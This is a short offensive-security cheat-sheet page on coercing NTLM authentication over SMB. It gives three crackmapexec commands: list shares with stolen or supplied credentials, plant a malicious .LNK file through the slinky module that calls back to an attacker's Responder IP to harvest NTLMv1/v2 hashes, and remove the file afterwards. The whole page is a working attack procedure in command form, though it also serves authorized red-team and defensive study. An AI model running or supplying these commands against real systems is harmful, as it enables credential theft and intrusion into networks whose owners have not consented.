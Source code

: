 # Coercing Authentication

### Harvest NTLMv2/v1 credentials if you have write-access to a share.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### References

{% embed url="https://twitter.com/mpgn_x64/status/1453018750253424643?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E8b8f7eedaf8bb13b607a524f5b0ba977c31a46c0%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fcdn.iframe.ly%2FEsKWvl5%3Fapp%3D1" %}
